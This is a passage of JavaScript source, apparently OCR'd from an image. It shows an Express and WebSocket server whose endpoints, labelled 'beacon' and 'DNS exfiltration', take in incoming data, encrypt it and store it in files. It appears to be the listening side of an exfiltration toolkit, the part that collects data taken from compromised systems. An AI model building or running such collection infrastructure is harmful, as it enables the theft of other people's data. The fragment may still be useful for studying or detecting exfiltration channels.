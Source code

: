 ```javascript
        data: dataStr
      };
      
      // Encrypt and save the data
      const encryptedData = encrypt(JSON.stringify(processedData));
      const filename = `data_${Date.now()}.enc`;
      fs.writeFileSync(path.join(dataDir, filename), encryptedData);
      
      console.log(`Data saved to ${filename}`);
    } catch (error) {
      console.error('Error processing WebSocket data:', error);
    }
  });
  
  ws.on('close', function() {
    console.log('WebSocket connection closed');
  });
});

// Beacon endpoint with data processing
app.get('/beacon', (req, res) => {
  try {
    console.log('Received beacon data');
    
    // Parse and process the data
    const processedData = {
      timestamp: new Date().toISOString(),
      source: 'beacon',
      data: req.query
    };
    
    // Encrypt and save the data
    const encryptedData = encrypt(JSON.stringify(processedData));
    const filename = `data_${Date.now()}.enc`;
    fs.writeFileSync(path.join(dataDir, filename), encryptedData);
    
    console.log(`Data saved to ${filename}`);
    res.status(200).send('OK');
  } catch (error) {
    console.error('Error processing beacon data:', error);
    res.status(500).send('Error processing data');
  }
});

// DNS exfiltration endpoint with data processing
app.get('/dns', (req, res) => {
  try {
    console.log('Received DNS data');
    
    // Parse and process the data
    const processedData = {
      timestamp: new Date().toISOString(),
      source: 'dns',
      hostname: req.hostname,
      data: req.query
    };
    
    // Encrypt and save the data
    const encryptedData = encrypt(JSON.stringify(processedData));
    const filename = `data_${Date.now()}.enc`;
    fs.writeFileSync(path.join(dataDir, filename), encryptedData);
    
    console.log(`Data saved to ${filename}`);
```